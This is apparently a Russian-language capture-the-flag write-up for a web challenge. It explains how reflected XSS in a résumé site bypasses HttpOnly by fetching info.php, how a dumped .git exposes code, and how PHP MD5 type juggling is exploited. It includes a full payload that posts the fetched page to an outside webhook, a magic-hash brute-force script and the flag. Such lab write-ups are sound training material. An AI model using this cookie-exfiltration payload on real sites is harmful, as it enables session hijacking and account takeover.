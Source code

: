 # Рекрутер | Web

## Информация
> Год назад я завалил ЕГЭ по информатике, после чего мой учитель сказал, что я никогда не устроюсь работать программистом... но ведь я и не программист...

## Файл задания
[task.zip](task.zip)

## Описание
Необходимо реализовать XSS с использованием страницы info.php, а также type juggling

## Решение
На главной странице есть форма отправки резюме. Если попытаться что-то отправить, появится сообщение об ошибке с ссылкой на ТГ-бота, которому необходимо отправить ссылку на резюме. Этот ТГ-бот умеет переходить по ссылкам. Чтобы это проверить, можно отправить ему ссылку на вебхук.

![smb](./img/webhook.png)

На сайте отсутствует регистрация, и следовательно, нужно каким-то образом получить креденты для входа в аккаунт. Не трудно заметить, что сайт написан на PHP, поэтому, вероятно, сессия пользователя хранится в PHPSESSID. 
Далее можно заметить, что пользовательский ввод в параметре send отображается на странице. Следовательно, на сайте присутствует XSS-уязвимость.

![smb](./img/xssalert.png)

Следовательно, можно украсть сессию у HR'а, отправив ему ссылку, в которой пейлоад будет записан в параметр send. Однако на этом сайте у куки установлен флаг HttpOnly, который не позволяет получить куки с помощью document.cookie. 

Чтобы все-таки получить куки, необходимо воспользоваться страницей info.php, на которой для каждого пользователя выводится множество значений, включая куки.

Итоговый пейлоад выглядит так:
```js
http://qookie.tech:30057/?send=<script>payload="fetch(%27http://qookie.tech:30057/info.php%27).then(resp=>resp.text()).then(data=>fetch(%27https://webhook.site/7e54f652-c2f3-41cd-9353-b1218b08fbce%27,{method:%27POST%27,body:data}))";window.open("http://qookie.tech:30057/?send=<svg%0Conload=eval(name)>",payload);</script>
```
![smb](./img/phpsessid.png)

Когда сессия получена, осталось только подменить её и получить доступ к аккаунту.

После входа в аккаунт HR'а нужно принять любого из подавших заявления кандидатов. Также требуется знать секретный код HR'а для этого действия. Следовательно, нужно продолжить анализировать приложение. Первым делом нужно пофаззить директории на сайте.

![smb](./img/dirsearch.png)

Можно заметить, что на сайте существует папка .git, в которой существует информация о прошлых коммитах приложения. Необходимо воспользоваться утилитой [GitTools](https://github.com/internetwache/GitTools/tree/master), которая позволяет сдампить всю нужную нам информацию. Далее через эту утилиту можно восстановить несколько прошлых коммитов этого приложения и понять логику проверки секретного кода HR'а.

![smb](./img/secret_code.png)

В глаза бросается уязвимость php type juggling, в которой нам необходимо подобрать такой код, хеш которого должен начинаться на 0e и состоять только из цифр. Это можно сделать на питоне или найти в гугле.

```python
import hashlib

for i in range(0, 1000000000000000):
  string_to_hash = str(i)
  md5_hash = hashlib.md5(string_to_hash.encode()).hexdigest()

  if md5_hash.startswith("0e") and md5_hash[2:].isdigit():
    print(f"Найдено число: {i}, хэш: {string_to_hash}|{md5_hash}")
    break
```

Далее необходимо вставить код и получить флаг.

## Флаг
`NQ20244ca76b6f7f63ab7a3e7491ecc2496f4929348bc67e563d90b89eb32febc8bd59`


